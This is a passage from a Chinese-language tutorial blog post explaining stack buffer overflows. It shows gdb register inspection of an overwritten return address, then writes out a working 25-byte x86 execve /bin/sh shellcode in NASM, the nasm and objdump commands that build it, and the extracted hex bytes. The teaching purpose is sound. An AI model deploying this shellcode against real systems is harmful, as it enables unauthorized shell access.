 注意使用 `gdb` 打印内存的时候，高地址位在下面，低地址位在上面。

#### 此时的 `register` （寄存器）

我们可以使用 `info register` 来查看当前的寄存器状态。

{% include extensions/lazyload.html img='/img/in-post/post-buffer-overflow-explained/13.jpg' %}

可以看到的确 `EBP` 和 `return address` 被覆写了。前面说了 `EIP` 指向的是 CPU 将要执行的下一条命令地址，在这里被覆写为 `0x43434343`。那么试想，如果这里的 `EIP` 指向一个恶意程序的地址，那么我们是不是就可以让程序以它的权限执行这段恶意程序了呢？

### Exploit the code

既然我们发现我们可以覆写一段程序的 `return address` ，那么我们现在的目标就是编写一段特定的程序，让缓冲区溢出后程序可以做到一些对攻击者有益的事情，比如说建立一个 `shell`

#### Shellcode

`shellcode` 是一段用来作为漏洞爆破点的程序，它被叫做 `shellcode` 的原因是因为它被执行后可以创建一个让攻击者操作目标机器的 `shell`。`shellcode` 的创建也不是很简单的事情，它高度要求操作系统的 CPU 类型，通常直接由汇编代码写成。如果对创建 `shellcode` 有兴趣可以去阅读相关的文章，在这篇文章中，我们使用从网上找到的一段 `shellcode` 。实际上，很多 `shellcode` 都可以从网上获得，比如 [Exploit Database Shellcodes](https://www.exploit-db.com/shellcodes/)。

```nasm
xor     eax, eax    ; Clearing eax register
push    eax         ; Pushing NULL bytes
push    0x68732f2f  ; Pushing //sh
push    0x6e69622f  ; Pushing /bin
mov     ebx, esp    ; ebx now has address of /bin//sh
push    eax         ; Pushing NULL byte
mov     edx, esp    ; edx now has address of NULL byte
push    ebx         ; Pushing address of /bin//sh
mov     ecx, esp    ; ecx now has address of address
                    ; of /bin//sh byte
mov     al, 11      ; syscall number of execve is 11
int     0x80        ; Make the system call
```

我们新建一个 `shellcode.asm` 文件并插入上面的示例 `shellcode`。这段汇编代码使用的是 `nasm`。我们接着来编译它:

```bash
nasm -f elf shellcode.asm
```

{% include extensions/lazyload.html img='/img/in-post/post-buffer-overflow-explained/14.jpg' %}

这一步生成了一个 `shellcode.o` 文件，这个文件是 [Excutable and Linkable Format](https://en.wikipedia.org/wiki/Executable_and_Linkable_Format) ( ELF ) 格式的。

然后我们可以使用 `objdump` 来解读这个文件，得到 `shellcode` 的字节码。

```bash
objdump -d -M intel shellcode.o
```

{% include extensions/lazyload.html img='/img/in-post/post-buffer-overflow-explained/15.jpg' %}

我们把第二列的十六进制码提取出来，就得到我们可以用，大小为 25 字节的 `shellcode`:

```bash
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```
